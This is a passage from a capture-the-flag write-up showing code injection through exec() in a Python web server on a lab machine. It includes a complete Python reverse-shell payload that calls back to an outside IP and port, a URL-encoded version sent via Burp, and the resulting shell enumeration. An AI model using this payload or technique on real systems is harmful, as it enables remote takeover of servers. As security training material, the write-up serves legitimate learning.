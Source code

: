 The script is a bit long but we can see the line
`exec(info.format(path))` where `path` is the user input (the path in a GET
request). The use of the `exec()` function is dangerous as
`exec(os.system(<cmd>))` will execute the command on the system (if `os` is
imported).

Here there is some python before the `exec()`:
`info = "output = 'Document: {}'"` so we need to "escape" this string. We try a
few thing on our system:

    :::text
    >>> path = ''
    >>> exec(info.format(path))
    >>> path = "test'; print('boom'); 'test"
    >>> exec(info.format(path))
    boom

So we can insert some payload between the two `;`. As the server is running
python we will use the [python TCP reverse
shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

So our payload is: `test'; import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.208",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash");'test`.

We get a error 400 "Bad request", so we encode our payload with Burp (url encode
all characters). The payload look like the following in burp repeater (yes I
also encoded the first `/` which is not part of our payload):

    :::text
    GET %2f%74%65%73%74%27%3b%20%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%30%2e%31%30%2e%31%34%2e%32%30%38%22%2c%34%34%34%34%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%69%6d%70%6f%72%74%20%70%74%79%3b%20%70%74%79%2e%73%70%61%77%6e%28%22%2f%62%69%6e%2f%62%61%73%68%22%29%3b%27%74%65%73%74 HTTP/1.1

    Host: 10.10.10.168:8080

This give us a reverse shell as `www-data`. We start enumerating the box and
found interesting files in the `robert` home folder.

    :::text
    www-data@obscure:/$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@obscure:/$ ls /home/
    ls /home/
    robert
    www-data@obscure:/$ ls /home/robert/
    ls /home/robert/
    BetterSSH  enum     passwordreminder.txt  user.txt
    check.txt  out.txt  SuperSecureCrypt.py
    www-data@obscure:/$ ls /home/robert/BetterSSH/
    ls /home/robert/BetterSSH/
    BetterSSH.py
